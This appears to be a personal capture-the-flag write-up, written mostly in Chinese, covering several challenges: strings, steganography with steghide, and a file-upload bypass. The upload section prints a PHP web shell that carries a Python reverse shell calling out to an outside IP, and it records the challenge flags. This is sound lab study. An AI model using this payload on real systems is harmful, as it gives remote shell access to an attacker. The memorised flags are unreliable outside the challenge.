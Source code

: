 ```
## Patch Tuesday

strings
RITSEC{PATCHM3IFYOUCAN}
...wtf

## findme.pcap

http://phrack.org/issues/7/3.html

## The doges
- Strings
沒看到什麼線索
- binwalk
只有一個JPG檔
- online tools(https://georgeom.net/StegOnline/upload)
直接調圖的顏色
看不出東西

根據題目所說"The doge holds the information you want, feed the doge a treat to get the hidden message."，應該是要餵一個東西進去圖片

我好爛
找不到線索TAT
https://null-byte.wonderhowto.com/how-to/steganography-hide-secret-data-inside-image-audio-file-seconds-0180936/
用 steghide 輸密碼 treat


## Patat0

1. upload.php
2. uploads/
3. photos.php

cat a.jpg a.php > a.php.jpg
不知道為什麼用sh/nc/bash reverse shell沒成功

```php
<?php echo exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"140.112.150.96\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"); echo "<h1>Hi Py</h1>";?>
```


cat /home/flag.txt

我好爛
RS_CTF{FILE_UPLOAD_ISN'T_SECURE}
## Resume Bank!
